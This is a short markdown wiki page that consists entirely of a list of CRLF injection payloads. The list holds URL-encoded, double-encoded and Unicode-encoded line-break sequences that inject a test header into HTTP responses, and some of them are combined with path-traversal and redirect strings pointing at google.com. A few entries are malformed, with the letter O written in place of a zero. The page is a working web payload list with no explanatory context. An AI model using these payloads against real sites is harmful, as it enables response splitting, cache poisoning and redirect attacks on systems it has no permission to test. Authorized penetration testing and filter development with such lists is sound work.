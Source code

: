 ```yaml
---
title: CRLF 
description: CRLF 
published: true
date: 2021-03-02T07:08:29.788Z
tags: web
editor: markdown
dateCreated: 2021-03-02T07:04:42.946Z
---
```


# CRLF Injection Payloads
%0AHeader-Test:BLATRUC
%0A%20Header-Test:BLATRUC
%20%0AHeader-Test:BLATRUC
%23%OAHeader-Test:BLATRUC
%E5%98%8A%E5%98%8DHeader-Test:BLATRUC
%E5%98%8A%E5%98%8D%0AHeader-Test:BLATRUC
%3F%0AHeader-Test:BLATRUC
crlf%0AHeader-Test:BLATRUC
crlf%0A%20Header-Test:BLATRUC
crlf%20%0AHeader-Test:BLATRUC
crlf%23%OAHeader-Test:BLATRUC
crlf%E5%98%8A%E5%98%8DHeader-Test:BLATRUC
crlf%E5%98%8A%E5%98%8D%0AHeader-Test:BLATRUC
crlf%3F%0AHeader-Test:BLATRUC
%0DHeader-Test:BLATRUC
%0D%20Header-Test:BLATRUC
%20%0DHeader-Test:BLATRUC
%23%0DHeader-Test:BLATRUC
%23%0AHeader-Test:BLATRUC
%E5%98%8A%E5%98%8DHeader-Test:BLATRUC
%E5%98%8A%E5%98%8D%0DHeader-Test:BLATRUC
%3F%0DHeader-Test:BLATRUC
crlf%0DHeader-Test:BLATRUC
crlf%0D%20Header-Test:BLATRUC
crlf%20%0DHeader-Test:BLATRUC
crlf%23%0DHeader-Test:BLATRUC
crlf%23%0AHeader-Test:BLATRUC
crlf%E5%98%8A%E5%98%8DHeader-Test:BLATRUC
crlf%E5%98%8A%E5%98%8D%0DHeader-Test:BLATRUC
crlf%3F%0DHeader-Test:BLATRUC
%0D%0AHeader-Test:BLATRUC
%0D%0A%20Header-Test:BLATRUC
%20%0D%0AHeader-Test:BLATRUC
%23%0D%0AHeader-Test:BLATRUC
\r\nHeader-Test:BLATRUC
 \r\n Header-Test:BLATRUC
\r\n Header-Test:BLATRUC
%5cr%5cnHeader-Test:BLATRUC
%E5%98%8A%E5%98%8DHeader-Test:BLATRUC
%E5%98%8A%E5%98%8D%0D%0AHeader-Test:BLATRUC
%3F%0D%0AHeader-Test:BLATRUC
crlf%0D%0AHeader-Test:BLATRUC
crlf%0D%0A%20Header-Test:BLATRUC
crlf%20%0D%0AHeader-Test:BLATRUC
crlf%23%0D%0AHeader-Test:BLATRUC
crlf\r\nHeader-Test:BLATRUC
crlf%5cr%5cnHeader-Test:BLATRUC
crlf%E5%98%8A%E5%98%8DHeader-Test:BLATRUC
crlf%E5%98%8A%E5%98%8D%0D%0AHeader-Test:BLATRUC
crlf%3F%0D%0AHeader-Test:BLATRUC
%0D%0A%09Header-Test:BLATRUC
crlf%0D%0A%09Header-Test:BLATRUC
%250AHeader-Test:BLATRUC
%25250AHeader-Test:BLATRUC
%%0A0AHeader-Test:BLATRUC
%25%30AHeader-Test:BLATRUC
%25%30%61Header-Test:BLATRUC
%u000AHeader-Test:BLATRUC
//www.google.com/%2F%2E%2E%0D%0AHeader-Test:BLATRUC
/www.google.com/%2E%2E%2F%0D%0AHeader-Test:BLATRUC
/google.com/%2F..%0D%0AHeader-Test:BLATRUC